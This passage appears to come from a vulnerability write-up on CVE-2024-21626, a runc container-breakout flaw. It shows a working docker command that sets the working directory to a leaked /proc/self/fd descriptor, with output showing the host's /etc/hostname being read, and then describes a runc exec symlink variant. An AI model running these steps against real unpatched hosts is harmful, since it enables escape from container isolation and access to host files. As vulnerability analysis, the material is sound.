 ```bash
# scenario 1: Exploit via Setting Working Directory to /proc/self/fd/
# run container with working directory to /proc/self/fd/8
sudo docker run -w /proc/self/fd/8 \
                --name cve-2024-21626 \
                --rm -it debian:bookworm

root@c4c0a9c99be6:.# ls -f
job-working-directory: error retrieving current directory: getcwd: cannot access parent directories: No such file or directory
.          sys-kernel-config.mount cgroup.stat   cpuset.cpus.effective   cpuset.mems.effective
..          cgroup.max.descendants misc.capacity   sys-kernel-tracing.mount  cgroup.subtree_control
io.prio.class         cpu.stat   dev-mqueue.mount  init.scope    dev-hugepages.mount
io.pressure         sys-kernel-debug.mount io.cost.model   cgroup.controllers   memory.reclaim
cgroup.procs         memory.pressure  user.slice   io.cost.qos    cgroup.max.depth
misc.current         memory.stat  cgroup.threads   system.slice    cgroup.pressure
sys-fs-fuse-connections.mount  cpu.pressure  memory.numa_stat  proc-sys-fs-binfmt_misc.mount  io.stat

# read host filesystem files
root@c4c0a9c99be6:.# cat ../../../../../../../../../../../etc/hostname
job-working-directory: error retrieving current directory: getcwd: cannot access parent directories: No such file or directory
demo-pc

# read container filesystem files
root@c4c0a9c99be6:.# cat /etc/hostname
job-working-directory: error retrieving current directory: getcwd: cannot access parent directories: No such file or directory
c4c0a9c99be6
```
<br>
{{< img src="images/scenario1.png" align="center" title="Attack 1">}}


## 3.3 Attack 2: runc exec container breakout
> (This is a modification of attack 1, constructed to allow for a process inside a container to break out.) <br><br>
The same fd leak and lack of verification of the working directory in attack 1 also apply to `runc exec`. If a malicious process inside the container knows that some administrative process will call `runc exec` with the `--cwd` argument and a given path, in most cases they can replace that path with a symlink to `/proc/self/fd/7/`. Once the container process has executed the container binary, `PR_SET_DUMPABLE` protections no longer apply and the attacker can open `/proc/$exec_pid/cwd` to get access to the host filesystem.<br><br>
`runc exec` defaults to a cwd of `/` (which cannot be replaced with a symlink), so this attack depends on the attacker getting a user (or some administrative process) to use `--cwd` and figuring out what path the target working directory is. Note that if the target working directory is a parent of the program binary being executed, the attacker might be unable to replace the path with a symlink (the `execve` will fail in most cases, unless the host filesystem layout specifically matches the container layout in specific ways and the attacker knows which binary the `runc exec` is executing).<br><br>
The CVSS score for this attack is **7.2 - high severity**.
